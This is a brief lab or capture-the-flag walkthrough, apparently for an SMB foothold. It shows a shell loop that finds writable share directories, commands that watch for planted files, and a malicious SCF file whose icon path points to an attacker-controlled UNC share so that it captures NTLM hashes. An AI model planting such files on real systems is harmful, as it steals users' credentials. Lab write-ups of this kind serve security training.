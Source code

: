 



# Foothold-amanda

## smb scf attack

After checked the walkthrough, key point smb scf attack.

check smb permission. run with root user.

```bash
find . -type d | while read directory; do touch ${directory}/test 2>/dev/null && echo "${directory} - write file" && rm ${directory}/test; mkdir ${directory}/test 2>/dev/null && echo "${directory} - write directory" && rmdir ${directory}/test; done
```



create file and watch the dir.

```bash
sudo touch {/mnt/sizzle/ZZ_ARCHIVE/,/mnt/sizzle/Users/Public/}test.{lnk,exe,dll,ini}

watch -d "ls /mnt/sizzle/Users/Public/*; ls /mnt/sizzle/ZZ_ARCHIVE/test*"
```

![image-20221218005051697](./images/image-20221218005051697.png)



file cleaned,  use scf to steal ntlm.

hello.scf

```bash
[Shell]
Command=2
IconFile=\\10.10.14.90\share\hello.ico
[Taskbar]
Command=ToggleDesktop
```
